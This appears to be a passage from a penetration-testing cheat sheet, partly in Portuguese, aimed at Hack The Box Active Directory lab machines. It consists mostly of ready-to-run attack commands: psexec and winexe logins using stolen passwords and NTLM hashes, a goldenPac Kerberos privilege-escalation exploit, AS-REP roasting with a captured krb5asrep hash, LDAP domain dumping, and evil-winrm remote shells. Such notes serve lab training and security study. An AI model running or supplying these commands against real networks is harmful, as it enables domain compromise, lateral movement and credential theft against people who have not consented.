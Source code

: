 ```bash
impacket-psexec active.htb/Administrator:Ticketmaster1968@10.10.10.100
# Alternativa com hashes
winexe -U WORKGROUP/Administrator%aad3b435b515123687eea87687d67ee:cdf51b162460b7d5bc898f493751a0cc //10.10.10.40 cmd.exe
```

## impacket-goldenPac

> Engana o Active directory generando um ticket com permições máximas, e visto que o Active directory assume que tudo o que vem de kerberos é verdade, assume que (no caso de baixo) o usuário james é administrador do sistema, ficando automáticamente logado enquanto authority\system

```bash
# Prepare /etc/hosts... 10.10.10.52	mantis.htb.local htb.local
goldenPac.py htb.local/james:J@m3s_P@ssW0rd\!@mantis.htb.local
```

## 6.5. Kerberos

### 6.5.1. Kerberos - impacket-GetNPUsers

> Queries target domain for users with 'Do not require Kerberos preauthentication' set and export their TGTs for cracking

```bash
kali@kali: >  impacket-GetNPUsers realcorp.htb/ -no-pass -usersfile user.txt
Impacket v0.9.22 - Copyright 2020 SecureAuth Corporation

$krb5asrep$18$j.nakazawa@REALCORP.HTB:38e284c38680906e8016e80b0eada5b1$5b0d997a09d7722c2584133be9ee2d69a5e03ab1d3ef2bffc8f7dcf3687b83d8cea5c71fd4aeef2b1ae0770194781a1fc41109789239d9d3553b92f39caabcd6c403d6d5b32a598a8cc70734c2944b8c17f2791835da4d8f989cda377d3e87c84340ab764d7c4fa110a5982bcf21f3c44ff34293fe1b043a330eccbe19d2c2b2b1e6b828d3ac6a672084c19a92f489aa90d0c375e4a49c307a11b95f3cb748b6e06df186b82cb0485dcd2524640aee4abf20fbe50b2adc14a526efe94995c602f931451c70384fe3ff50c71a34f7e624972d9436ffbdc1d1859a

kali@kali: >  impacket-GetNPUsers realcorp.htb/ -no-pass -usersfile user.txt > hash

```

# 7. ldapdomaindump - ActiveDirectory Viewer

```bash
python3 ldapdomaindump -u "htb.local\amanda" -p "Ashare1972" 10.10.10.103 -o ../../ldapdomaindumpresult
```

# 8. Evil-WinRM

```bash
evil-winrm -i 10.10.10.149 -u Chase -p 'Q4)sJu\Y8qz*A3?d'
```
